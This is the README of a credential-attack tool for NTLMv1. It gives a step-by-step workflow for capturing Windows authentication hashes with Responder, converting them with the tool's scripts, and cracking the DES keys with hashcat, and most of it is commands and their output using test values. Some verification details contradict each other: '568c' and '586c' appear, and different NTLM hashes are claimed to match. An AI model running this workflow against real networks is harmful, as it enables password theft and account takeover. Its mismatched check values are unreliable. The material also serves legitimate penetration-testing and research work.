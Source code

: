 # ntlmv1-multi
NTLMv1 Multitool

This tool modifies NTLMv1/NTLMv1-ESS/MSCHAPv1 hashes so they can be cracked with DES Mode 14000 in hashcat

This tool is based on work done by atom of team Hashcat https://hashcat.net/forum/thread-5832.html

It is also based on https://hashcat.net/forum/thread-5912.html and https://www.youtube.com/watch?v=LIHACAct2vo

# Usage

## NTLMv1 without SSP
To capture use responder with the --lm flag, without --lm you will activate SSP which requires a different tool.

The capture will look like this.
```
[SMB] NTLMv1 Client   : 184.64.60.62
[SMB] NTLMv1 Username : DUSTIN-5AA37877\hashcat
[SMB] NTLMv1 Hash     : hashcat::DUSTIN-5AA37877:76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D:727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595:1122334455667788
[*] Skipping previously captured hash for DUSTIN-5AA37877\hashcat
```

The hash portion looks like this
```
hashcat::DUSTIN-5AA37877:76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D:727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595:1122334455667788
```

So use the multi tool like so
```
python ntlmv1.py --nossp hashcat::DUSTIN-5AA37877:76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D:727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595:1122334455667788
```

It will output the following data without modifing server challenges etc
```
['hashcat', '', 'DUSTIN-5AA37877', '76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D', '727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595', '1122334455667788']

Hostname: DUSTIN-5AA37877
Username: hashcat
Challenge: 1122334455667788
LM Response: 76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D
NT Response: 727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595
CT1: 727B4E35F947129E
CT2: A52B9CDEDAE86934
CT3: BB23EF89F50FC595

To Calculate final 4 characters of NTLM hash use:
./ct3_to_ntlm.bin BB23EF89F50FC595 1122334455667788

To crack with hashcat create a file with the following contents:
727B4E35F947129E:1122334455667788
A52B9CDEDAE86934:1122334455667788

To crack with hashcat:
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1
```

Now the first and most important thing is the password used in this case is hashcat and we can verify the ntlm hash with
```
echo -n hashcat | iconv -f utf8 -t utf16le | openssl dgst -md4
(stdin)= b4b9b02e6f09a9bd760f388b67351e2b
```

With hashcat utils ct3_to_ntlm.bin that atom wrote you can calculate the last 4 characters of the NTLM hash from the NTLMv1 challenge, which the tool outputs
```
./ct3_to_ntlm.bin BB23EF89F50FC595 1122334455667788
568c
```

This matches up to the end of the ntlm hash so we are good to go, the next step is cracking the hashes with hashcat so we need to make a hashes.txt file with
```
727B4E35F947129E:1122334455667788
A52B9CDEDAE86934:1122334455667788
```

To crack this with hashcat you use
```
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1
```

If you are just testing my code and know the password already you can use the des converter
```
python ntlm-to-des.py --ntlm b4b9b02e6f09a9bd760f388b67351e2b
DESKEY1: b55d6d04e67926
DESKEY2: bcba83e6895b9d

echo b55d6d04e67926>>des.cand
echo bcba83e6895b9d>>des.cand
```

Basically you do the following
```
echo b55d6d04e67926>>des.cand
echo bcba83e6895b9d>>des.cand
```
```
./hashcat -m 14000 -a 0 -1 charsets/DES_full.charset --hex-charset hashes.txt des.cand
```

And you should have some reversed hashes

## NTLMv1 with SSP
SSP changes the server challenge, if you see SSP in your responder because you didn't use --lm or the client is set not to give out a LM response then SSP gets engaged.

The SSP output looks like this
```
[SMB] NTLMv1-SSP Client   : 184.64.60.62
[SMB] NTLMv1-SSP Username : DUSTIN-5AA37877\hashcat
[SMB] NTLMv1-SSP Hash     : hashcat::DUSTIN-5AA37877:85D5BC2CE95161CD00000000000000000000000000000000:892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0:1122334455667788
```

The actual hash looks like this
```
hashcat::DUSTIN-5AA37877:85D5BC2CE95161CD00000000000000000000000000000000:892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0:1122334455667788
```

The hashcat forums post do not use SSP, so don't try to use the SSP on *NON* SSP hashes, you will see a stackload of zero's and thats how you can tell as the LM Response is mangled.

To use the tool run
```
python ntlmv1-ssp.py --ssp "hashcat::DUSTIN-5AA37877:85D5BC2CE95161CD00000000000000000000000000000000:892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0:1122334455667788"
```

The tool will output
```
Hashfield Split:
['hashcat', '', 'DUSTIN-5AA37877', '85D5BC2CE95161CD00000000000000000000000000000000', '892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0', '1122334455667788']

Hostname: DUSTIN-5AA37877
Username: hashcat
LM Response: 85D5BC2CE95161CD00000000000000000000000000000000
NT Response: 892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0
Client Challenge: 1122334455667788
SRV Challenge: b36d2b9a8607ea77

To Calculate final 4 characters of NTLM hash use:
./ct3_to_ntlm.bin 2BBD6C9ABCD021D0 1122334455667788 85D5BC2CE95161CD00000000000000000000000000000000

To crack with hashcat create a file with the following contents:
892F905962F76D32:b36d2b9a8607ea77
3837F613F88DE27C:b36d2b9a8607ea77

To crack with hashcat:
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1
```

Now the password we are using in this case is hashcat which has and ntlm hash of ```b4b9b02e6f09a9bd760f388b67351e2b```
```
echo -n hashcat | iconv -f utf8 -t utf16le | openssl dgst -md4
(stdin)= b4b9b02e6f09a9bd760f388b67351e2b
```

So to calculate the last 4 characters of the ntlm hash for our NTLMv1-SSP chalenge we use the following command from the tool output to get ```586c```
```
./ct3_to_ntlm.bin 2BBD6C9ABCD021D0 1122334455667788 85D5BC2CE95161CD00000000000000000000000000000000
```

We must make a hash file with the following content according to the tool which has the modified SRV Challenges to deal with ESS
```
892F905962F76D32:b36d2b9a8607ea77
3837F613F88DE27C:b36d2b9a8607ea77
```

To crack with hashcat we use the following according to the tool
```
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1
```

Now assuming we already knew what the ntlm hash was in the case because we made it and want to validate the tooling we use the following
```
python ntlm-to-des.py --ntlm b4b9b02e6f09a9bd760f388b67351e2b
```

This will output some data for us
```
DESKEY1: b55d6d04e67926
DESKEY2: bcba83e6895b9d

echo b55d6d04e67926>>des.cand
echo bcba83e6895b9d>>des.cand
```

The important part here is
```
echo b55d6d04e67926>>des.cand
echo bcba83e6895b9d>>des.cand
```

Now we can crack with hashcat using the following and not waiting 8 days
```
./hashcat -m 14000 -a 0 -1 charsets/DES_full.charset --hex-charset hashes.txt des.cand
```



## NTLM hash to DES Key Converter for data validation testing
```
python ntlm-to-des.py  --ntlm 8846f7eaee8fb117ad06bdd830b7586c
```
```
DESKEY1: b55d6d05e6792652
DESKEY2: bdba82e6895a9d6a

echo b55d6d05e6792652>>des.cand
echo bdba82e6895a9d6a>>des.cand
```
